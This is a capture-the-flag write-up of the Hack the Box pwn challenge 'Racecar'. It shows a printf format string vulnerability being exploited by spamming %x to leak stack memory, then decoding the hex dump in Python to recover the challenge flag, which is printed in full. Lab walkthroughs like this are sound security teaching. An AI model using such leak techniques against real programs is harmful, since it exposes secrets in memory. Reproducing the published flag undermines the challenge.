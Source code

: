 ```yaml
---
staticPath: racecar
Title: "Hack the Box: Racecar"
Description: Using a format string vulnerability to leak stack data
Date: 2024-11-28
tags:
  - HTB
  - CTF
  - PWN
---
```

Racecar is a pwn challenge from Hack the Box. Below is where the executable opens the flag file.

![[Pasted image 20241128135930.png]]

Below is where the flag gets read onto the stack. `ebp` is a register that points to the base of the current stack frame which than gets pushed to `eax`.
![[Pasted image 20241128141609.png]]

While trying different strings in the win function i noticed it was a format string vulnerability.
![[Pasted image 20241128140342.png]]

Here's where it calls printf without a format string.

![[Pasted image 20241128140501.png]]

Strings doesn't seem to work for some reason

![[Pasted image 20241128140714.png]]

Spamming `%x` to leak stack data yields the following.

```
56e2b1c0 170 56555dfa 2f 9 26 2 1 5655696c 56e2b1c0 56e2b340 7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368 6b633474 7d213f 10839500 f7f8a3fc 56558f8c ffc533f8 56556441 1 ffc534a4 ffc534ac 10839500 ffc53410 0 0 f7dcdf21 f7f8a000 f7f8a000 0 f7dcdf21 1 ffc534a4 ffc534ac ffc53434 1 ffc534a4 f7f8a000 f7fa870a ffc534a0 0 f7f8a000 0 0 c1004703 f2d5a113 0 0 0 40 f7fc0024 0 0 f7fa8819 56558f8c 1 56555790 0 565557c1 565563e1 1 ffc534a4 56556490 565564f0 f7fa8960 ffc5349c f7fc0940 1 ffc53d34 0 ffc53d46 ffc53d68 ffc53d9d ffc53dbc ffc53ddf ffc53e0c ffc53e21 ffc53e3d ffc53e5b ffc53e77 ffc53e9f ffc53ee1 ffc53f06 ffc53f27 ffc53f32 ffc53f54 ffc53f61 ffc53f6e ffc53f84 ffc53fa1 ffc53fb5 ffc53fd1 0 20 f7f97550 21 f7f97000 33 6f0 10 178bfbff 6 1000 11 64 3 56555034 4 20 5 9 7 f7f99000 8 0
```

Using some python to decode the hex I get the flag.

```python
for i in hexdump.split(" "):
    try:
       print(bytearray.fromhex(i).decode()[::-1],end="")
    except:
        pass 
```

```
/&liUVHTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}AdUV@ !3d4PUV **%**
```

# Final thoughts

Passing a user controlled buffer without a format string to printf is always a bad idea. Doing further research it looks like the reason `%s` doesn't work is because it reads off a number from the stack and then treats that as an address to read a string from. So there would have to be a valid address on the stack for `%s` to work. I found syracuse's [lecture notes](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) helpful for learning more about format string vulnerabilities.